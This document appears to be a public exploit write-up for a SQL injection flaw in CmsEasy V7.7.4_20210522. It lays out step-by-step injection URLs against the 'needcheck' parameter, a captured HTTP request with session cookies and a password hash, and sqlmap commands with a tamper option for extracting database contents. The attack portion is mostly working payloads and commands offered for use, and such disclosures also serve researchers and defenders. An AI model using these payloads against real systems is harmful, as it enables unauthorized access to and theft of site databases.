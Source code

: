## Information

```c
Exploit Title:CmsEasy.V7.7.4_20210522-SQL injection
Exploit date:25.05.2021
Exploit Author:Al1ex@Heptagram
Vendor Homepage:https://www.cmseasy.cn/
Affect Version:V7.7.4_20210522
Description:There is a SQL injection vulnerability in CmsEasy.V7.7.4_20210522, which can be used by attackers to obtain database information
```

## How to Exploit

**Step 1：Simple test to determine the existence of SQL injection vulnerability**

```
http://192.168.174.1/index.php?case=manage&act=list&manage=archive&needcheck=0
```

![fuzz](img/fuzz1.png)

```
http://192.168.174.1/index.php?case=manage&act=list&manage=archive&needcheck=0%27
```

![fuzz2](img/fuzz2.png)

```
http://192.168.174.1/index.php?case=manage&act=list&manage=archive&needcheck=0%20and%201=1%20--+
```

![fuzz3](img/fuzz3.png)

```
http://192.168.174.1/index.php?case=manage&act=list&manage=archive&needcheck=0%20and%201=2%20--+
```

![fuzz4](img/fuzz4.png)

**Step 2：Using burpsuite to capture communication packets**

```C
GET /index.php?case=manage&act=list&manage=archive&needcheck=0 HTTP/1.1
Host: 192.168.174.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=r9t36f9b1qok6079c54h41q61f; Hm_lvt_eaa57ca47dacb4ad4f5a257001a3457c=1621906612; Hm_lpvt_eaa57ca47dacb4ad4f5a257001a3457c=1621927745; loginfalse=0; login_username=test1; login_password=972af30e54f47432662167c8a92badf8
Upgrade-Insecure-Requests: 1


```

![package](img/package.png)

**Step 3：Using sqlmap to get database data**

```
sqlmap -r 1.txt
```

![sqlmap1](img/sqlmap1.png)

![sqlmap2](img/sqlmap2.png)

```
sqlmap -r 1.txt --dbs --tamper=between
```

![sqlmap3](img/sqlmap3.png)

![sqlmap4](img/sqlmap4.png)

## Reference

https://www.cmseasy.cn/



